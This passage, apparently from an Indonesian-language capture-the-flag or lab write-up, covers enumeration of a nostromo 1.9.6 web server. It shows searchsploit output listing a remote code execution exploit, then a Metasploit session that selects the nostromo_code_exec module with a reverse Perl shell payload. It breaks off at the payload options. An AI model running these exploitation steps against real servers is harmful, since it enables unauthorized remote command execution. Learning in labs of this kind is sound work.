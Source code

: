 ### Enumeration
untuk `nostromo 1.9.6` dapat dilihat ada beberapa list di `searchploit` dan `metasploit`

#### searchploit
```
# searchsploit nostromo 1.9.6
-----------------------------------------------------------------------------------------------------------------------------
 Exploit Title                                                                    |  Path
                                                                                  | (/usr/share/exploitdb/)
-----------------------------------------------------------------------------------------------------------------------------
nostromo 1.9.6 - Remote Code Execution                                            | exploits/multiple/remote/47837.py
-----------------------------------------------------------------------------------------------------------------------------
Shellcodes: No Result
```
#### metasploit
```
# msfconsole
...
msf5 > search nostromo 1.9.6

Matching Modules
================

   #  Name                                       Disclosure Date  Rank    Check  Description
   -  ----                                       ---------------  ----    -----  -----------
   0  exploit/multi/http/nostromo_code_exec      2019-10-20       good    Yes    Nostromo Directory Traversal Remote Command Execution
   1  exploit/windows/ftp/absolute_ftp_list_bof  2011-11-09       normal  No     AbsoluteFTP 1.9.6 - 2.2.10 LIST Command Remote Buffer Overflow


msf5 > 
```
gunakan metasploit `exploit/multi/http/nostromo_code_exec` 

```
msf5 > use exploit/multi/http/nostromo_code_exec
msf5 exploit(multi/http/nostromo_code_exec) > options 

Module options (exploit/multi/http/nostromo_code_exec):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT    80               yes       The target port (TCP)
   SRVHOST  0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT  8080             yes       The local port to listen on.
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)
   VHOST                     no        HTTP server virtual host


Payload options (cmd/unix/reverse_perl):

```